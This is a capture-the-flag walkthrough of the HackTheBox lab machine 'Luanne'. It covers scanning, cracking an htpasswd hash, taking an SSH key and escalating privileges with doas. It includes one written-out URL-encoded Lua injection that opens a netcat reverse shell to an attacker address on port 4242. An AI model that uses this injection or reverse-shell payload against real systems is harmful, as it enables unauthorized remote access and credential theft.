<link href="http://github.com/yrgoldteeth/darkdowncss/raw/master/darkdown.css" rel="stylesheet"></link>

 

    	Luanne

​		17th Januray 2021

​		Machine Author(s): polarbearer

​		

 

### Description:

Luanne is an easy-level machine active on HackTheBox. 

### Difficulty:

`easy`

### Flags:

User: `Find it yourself and see how it feels`

Root: `Find it yourself and see how it feels`

# Enumeration

1) So first of all I perfomed an nmap scan on the machine which gave me the following results.



2) We can see that its got an nginx server on port 80 which requires authentication (you can make out from the status code 401).

3) Robots.txt tells us we have a directory named weather. When we go to the route http://10.10.10.218/weather, we get a 404 not found error.



4) Hereafter I thought of performing a directory scan via gobuster to check if there are any other directories present. I found this...



5) After I went over to /forecast, I found a JSON message which said the following...



city=list?..I guess it must be a parameter that is being passed to the URL

what if we pass a reverse shell instead of list to the variable city?...worth a shot..

# Foothold

So I constructed a reverse shell payload and then url-encoded it.





?city=10.10.10.218%2Fweather%2Fforecast%3Fcity%3D')%3Bos.execute("rm %2Ftmp%2Ff%3Bmkfifo %2Ftmp%2Ff%3Bcat %2Ftmp%2Ff|%2Fbin%2Fsh -i 2>%261|nc 10.10.14.136 4242 >%2Ftmp%2Ff")--

and i passed this to the city variable in the URL and opened a netcat listener on port 4242 on my local machine.

I got a shell as httpd thereafter. And then I checked what files were present in the current directory, I found a .htpasswd file which were the credentials needed to access the web service on port 80.



I used John to crack the hash with rockyou as the dictionary and found the password. 



Thereafter I accessed the web service served on port 80 by inputting the credentials found.
 


There I saw some usual things,which I already have tried once before.

# Lateral Movement
I then remembered, that when I got the authentication error, I had also got a redirection link which was running on localhost.
I checked if the process was actually running on the server or no using the netstat -aan command.



After a little enumeration (in the /home directory) I found out that there is a user named r.michaels, so I thought of CURLing the ssh keys of r.michaels using the webapi_user credentials obtained previously.
 
 
 
Boom! I got the id_rsa keys of r.michaels user. I saved it with a 600 permission (search file permissions on google for further details) using the chmod command on my local machine. 
 
Post which, I was ready to login into the user..

And we've logged in as r.michaels



Wuhuu...you got the user flag now!
 

# Privilege Escalation

Moving forward to root, there is a backup file which is encrypted so let’s decrypt it and then extract it.





We got another hash..hmm..resorting to the previous ways (like we used john in the previous case) we'll extract the hash as shown.



With the new found password, I tried use sudo su, but it didn’t work.

It was a easy machine so I thought this may be the password of root but the machine did not have sudo.



But I searched for the alternative of sudo in openBSd and got to know that we can use doas. And it worked...


